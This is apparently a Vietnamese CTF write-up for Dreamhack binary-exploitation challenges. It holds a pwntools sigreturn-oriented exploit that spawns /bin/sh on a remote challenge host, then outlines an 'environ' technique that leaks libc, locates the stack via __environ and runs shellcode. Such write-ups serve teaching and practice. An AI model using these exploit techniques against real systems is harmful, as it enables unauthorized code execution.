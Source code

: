```
```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./send_sig',checksec=False)
#p = process()
p = remote('host3.dreamhack.games', 10507)
syscall = 0x00000000004010b0
pop_rax = 0x00000000004010ae
bin_sh = 0x402000
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdx = 0
frame.rdi = bin_sh
frame.rsi =0
frame.rip = syscall
payload = b'a'*16
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(0x00000000004010b0)
payload += bytes(frame)
p.send(payload)
p.interactiv
```


-----------

15 . environ
-----

checksec : 

![image](https://hackmd.io/_uploads/HyGZhHiQ1x.png)

NX tắt → có thể dùng shellcode , tuy nhiên CANARY lại bật và được leak libc , có libc tuy nhiên bai này không có BOF . hmmmmmmmmmmm

- có jmp đến địa chỉ nào đó → vẫn có thể thực thi shellcode kh cần bof , tuy nhiên phải leak dc địa chỉ stack

![image](https://hackmd.io/_uploads/HJbf3romJg.png)


cứu tinh ở đây sẽ là  environment variable , ta thấy nó trỏ đến địa chỉ stack 

![image](https://hackmd.io/_uploads/BkJ73HjmJg.png)

- oke vào việc :

bước 1 : leak libc tìm libc base và đia chỉ libc __environ

bước 2 : tính toán offset từ buf đến địa chỉ stack mà ta biết từ libc __environ

bước 3 : ghi shellcode vào địa chỉ đó và jmp đến địa chỉ đó

![image](https://hackmd.io/_uploads/HJZV3rjmyx.png)

offset = 280 

sau khi hoàn chỉnh các bước trên , địa chỉ trỏ đến shellcode và thực thi nó 


![image](https://hackmd.io/_uploads/SyNHhroX1e.png)
```